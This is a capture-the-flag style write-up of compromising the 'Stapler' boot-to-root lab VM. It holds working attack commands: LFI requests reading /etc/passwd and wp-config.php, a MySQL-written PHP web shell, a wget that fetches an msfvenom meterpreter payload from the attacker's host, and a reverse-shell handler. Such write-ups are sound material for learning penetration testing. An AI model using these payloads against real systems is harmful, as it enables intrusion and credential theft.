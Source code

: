 +++
Description = ""
Categories = [ "Boot2Root" ]
menu = "B2R: Stapler"
date = "2016-12-24T23:45:38-05:00"
title = "B2R: Stapler"
+++


Adding the IP address of the VM to the hosts file allows one to cut down on some typing.

![](https://i.imgur.com/cazlgnf.png)

## Executive Summary
This machine had several services running, some of which revealed employee names and accounts that could
later be leveraged to compromise the system. A Wordpress plug-in vulnerability was found and used to extract
database credentials, which then led to a non-privileged shell. Once scanned, it was discovered that a script
ran every 20 minutes as the `root` user and that the script was writable to our non-privileged user. This was
leveraged to create a `root` shell by replacing the file contents with a malicious payload.

## Execution

An initial recon scan on the target revealed the following services:

~~~bash.prettyprint
>> onetwopunch -t ip_addresses.txt -p tcp
~~~
![](https://i.imgur.com/YeosV0b.png)

All together, individual inspection of the services revealed a plethora of information about the company and
its employees. 
This section will cover the most direct route to `root`, 
but see the [Additional Discovery](#additional-discovery) section for that information.

Using `nikto` against the service on port `12380` revealed additional paths using the https protocol. 

~~~bash.prettyprint
>> nikto -host vm:12380
~~~
![](https://i.imgur.com/DTF5i00.png)

The site hosted at `/blogblog` is a Wordpress blog with a vulnerable plug-in, as discovered by `wpscan`.

~~~bash.prettyprint
wpscan -u https://vm:12380/blogblog/
~~~

![](https://i.imgur.com/uzdO1dx.png)
![](https://i.imgur.com/U2NyDnu.png)
![](https://i.imgur.com/LrEOKFq.png)

[This LFI vulnerability](https://www.exploit-db.com/exploits/39646/) allows an attacker to read the contents
of a file on the system by using that file as a "thumbnail" for a post. An attacker could use this to read
the contents of the Wordpress configuration file which has database credentials. The user account list for
this machine was also acquired using this method.

~~~bash.prettyprint
>> curl -k "https://vm:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=9898092807434134&short=rnd&term=rnd&thumb=../../../../../etc/passwd"
>> curl -k "https://vm:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=9898092807434134&short=rnd&term=rnd&thumb=../wp-config.php"
~~~
![](https://i.imgur.com/XMcARrC.png)

By curling the "image" urls, the contents can be read.

![](https://i.imgur.com/CVtnKiK.png)
![](https://i.imgur.com/rfez3zi.png)


With credentials and an open 3306 port, an attacker can log in and create a malicious file that would allow
remote code execution.

~~~bash.prettyprint
>> mysql -h vm -u root -p wordpress

mysql>> SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/root/www/rce.php'
~~~

![](https://i.imgur.com/h0gsLrZ.png)

With remote code execution enabled, an attacker can download a malicious payload that initiates a reverse
shell.

~~~bash.prettyprint
# start a web server to host the payload
>> systemctl start apache2

#create the payload in the web directory
>> msfvenom -p php/meterpreter_reverse_tcp LPORT=443 LHOST=$HOST_IP -t raw > /var/www/html/qq.php

# trigger remote commands that download the payload from the attacker's computer
>> curl "vm/rce.php?cmd=wget 192.168.110.101/qq.php"
>> curl "vm/rce.php?cmd=ls"
~~~

![](https://i.imgur.com/5WdoFhk.png)

A listener/handler is configured and the reverse shell kicked off on the victim computer

~~~bash.prettyprint
>> msfconsole -x "use exploit/multi/handler"

msfconsole>> set PAYLOAD php/meterpreter_reverse_tcp
msfconsolemsfconsole>> set LPORT 443
msfconsole>> exploit -j

# start the shell
>> curl "vm/qq.php"
~~~

![](https://i.imgur.com/Gxqwui2.png)

An attacker can now enumerate the contents of the victim's file system, allowing them identify any vulnerable
or mis-configured services that would allow them to elevate privileges. In this case, a cron script was
running a world-modifiable file as root.

![](https://i.imgur.com/I0kuii9.png)
![](https://i.imgur.com/bg9dpXH.png)


Further inspection of this scheduled task:

![](https://i.imgur.com/WXEowHC.png)

This task runs as the root user. All that was needed to become root was to replace the contents of the script
with a reverse shell.

![](https://i.imgur.com/vFqTefn.png)



## Additional Discovery

SMB enumeration and unprotected shares revealed some employee names and personal notes
![](https://i.imgur.com/VEFkW99.png)

Port 666 was serving a zip file of a screenshot of another personal note. The exif contained some notes for
the attacker.
![](https://i.imgur.com/vJBqGGF.png)

The anonymous ftp login also leaks information.
![](https://i.imgur.com/fW3Nl8k.png)
![](https://i.imgur.com/aFFIp9P.png)

Port 80 scan initially returned what looked like a user's dotfiles. This gave me the idea that someone may be
running a web server from their home directory.
![](https://i.imgur.com/w3143f7.png)

The Wordpress site could have been used as another vector for a shell by adding a reverse shell plug-in. The
users and passwords were crackable with the rockyou word list. Some users also reused their Wordpress
passwords for their machine accounts.

~~~bash.prettyprint
>> wpscan -u https://vm:12380/blogblog/ --enumerate u
~~~

![](https://i.imgur.com/v1GKKbb.png)

Without accessing the computer's `/etc/passwd` file, this gathering of information revealed the existence of
the following employees and a accounts:

~~~bash.prettyprint
barry
dave
elly
fred
garry
harry
heather
john
kathy
pam
peter
scott
tim
vicki
zoe
~~~
